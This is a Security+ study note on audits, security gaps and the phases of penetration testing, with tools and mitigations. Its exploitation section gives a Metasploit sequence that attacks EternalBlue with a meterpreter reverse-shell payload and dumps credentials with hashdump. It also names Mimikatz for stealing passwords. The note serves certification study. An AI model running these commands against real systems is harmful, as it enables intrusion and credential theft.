 ```yaml
---
title: Audit & Assessment
author: gourabdg47
date: 2025-04-16 11:24:00
categories:
  - Information
  - Security +
tags:
  - reading
  - certification
render_with_liquid: true
---
```


# Audit & Assessments

**Critical for identifying vulnerabilities, ensuring compliance, and hardening an organization’s security posture.**

---

### **Audits**

Systematic evaluations to verify adherence to security policies, regulations, and best practices.

1. **Internal Audits**
    
    - Conducted by the organization’s team to assess **processes, controls, and compliance** (e.g., ISO 27001, GDPR).
        
    - Example: Checking if employees follow password rotation policies.
        
2. **External Audits**
    
    - Performed by third parties (e.g., regulators, consultants) to validate security claims.
        
    - Example: PCI-DSS audit for credit card data handling.
        

---

### **Identifying Security Gaps**

Weaknesses in three key areas:

1. **Policies**
    
    - Example: Lack of an incident response plan for ransomware attacks.
        
2. **Procedures**
    
    - Example: Employees sharing passwords via unencrypted email.
        
3. **Controls**
    
    - Example: Missing multi-factor authentication (MFA) for privileged accounts.
        

**Real-World Gap**: The 2017 Equifax breach occurred due to unpatched Apache Struts (a **control gap**).

---

### **Internal Processes**

Focus on aligning workflows with security frameworks:

- **Processes**: How tasks are executed (e.g., patch management cycles).
- **Controls**: Safeguards like firewalls, access controls, and encryption.
- **Compliance**: Meeting standards like HIPAA, NIST CSF, or SOC 2.
    
---

### **Penetration Testing**

Simulating real-world attacks to exploit vulnerabilities. Follows a structured **5-phase approach**:

#### **1. Reconnaissance**

Gathering intelligence about the target.

- **Passive Reconnaissance**:
    
    - No direct interaction with the target.
        
    - Tools: **WHOIS lookup**, **Shodan** (searching exposed devices), social media (e.g., LinkedIn for employee names).
        
    - Example: Finding an outdated WordPress version via BuiltWith.
        
- **Active Reconnaissance**:
    
    - Directly probing the target.
        
    - Tools: **Nmap** (port scanning), **theHarvester** (email enumeration).
        
    - Example: `nmap -sV 192.168.1.1` to identify open ports and services.
        

#### **2. Scanning & Vulnerability Analysis**

Identifying weaknesses in systems/applications.

- Tools: **Nessus**, **OpenVAS**, **Nikto** (web server scans).
    
- Example: Using Nessus to detect a missing MS17-010 patch (EternalBlue vulnerability).
    

#### **3. Exploitation**

Launching attacks to breach systems.

- **Known Environment**: Attacker has full knowledge (e.g., internal red team).
    
    - Example: Exploiting a misconfigured S3 bucket to exfiltrate data.
        
- **Partially Known Environment**: Limited info (e.g., third-party pen-testers).
    
- **Unknown Environment** (Black Box): Zero prior knowledge.
    
    - **Live Attack Example**:
        
        1. Use `nmap -p 445 10.0.0.0/24` to find SMB ports.
            
        2. Run `msfconsole` in Metasploit.
            
        3. Exploit EternalBlue:
            
            ```bash
            nmap -p 445 10.0.0.0/24
            
			msfconsole
			use exploit/windows/smb/ms17_010_eternalblue
			set RHOSTS 10.0.0.5
			set PAYLOAD windows/x64/meterpreter/reverse_tcp
			exploit

			```
            
        4. Gain **meterpreter shell** → Dump credentials with `hashdump`.
            

#### **4. Post-Exploitation**

Maintaining access and pivoting to other systems.

- Tools: **Mimikatz** (extracting passwords from memory), **Cobalt Strike** (lateral movement).
    
- Example: Using `kiwi` in Metasploit to extract Kerberos tickets for privilege escalation.
    

#### **5. Reporting**

Documenting findings and recommending fixes.

- Example: Prioritizing EternalBlue patching and disabling SMBv1.
    

---

### **Pentesting Tools**

1. **Nmap**
    
    - Network mapping and service discovery:
        
        nmap -sS -A -T4 192.168.1.1  # Stealth SYN scan + OS detection  
        
2. **Metasploit**
    
    - Exploit development and execution framework.
        
3. **Burp Suite**
    
    - Web application testing (e.g., SQLi, XSS).
        
4. **Wireshark**
    
    - Network traffic analysis for unencrypted credentials.
        

---

### **Mitigation Strategies**

- **Patching**: Regularly update systems (e.g., EternalBlue was patched in 2017!).
    
- **Network Segmentation**: Limit lateral movement.
    
- **Web Application Firewalls (WAF)**: Block SQLi/XSS payloads.
    

---

**Exam Tips**:

- Memorize the **5 phases of penetration testing** (Recon → Scanning → Exploitation → Post-Exploit → Reporting).
    
- Know the difference between **passive** (no interaction) and **active** (direct probing) reconnaissance.
    
- Practice **Nmap flags**: `-sS` (stealth scan), `-A` (aggressive scan), `-O` (OS detection).

---

> To get in touch with me or for general discussion please visit [ZeroDayMindset Discussion](https://github.com/orgs/X3N0-G0D/discussions) 
{: .prompt-info }